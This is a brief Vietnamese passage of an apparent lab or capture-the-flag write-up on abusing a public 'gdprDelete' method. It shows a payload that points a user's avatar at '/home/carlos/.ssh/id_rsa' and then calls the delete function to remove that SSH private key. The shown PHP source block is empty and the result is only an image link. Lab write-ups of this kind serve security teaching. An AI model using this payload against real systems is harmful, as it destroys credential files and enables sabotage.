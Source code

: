 ```php!

?>
```

Nhận thấy có function `gdprDelete` là public function cho phép xóa file, ta tạo payload như sau:

```
user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')
```

Sau đó submit

```
user.gdprDelete()
```

Kết quả:

>![](https://i.imgur.com/058GIGm.png)


<hr>


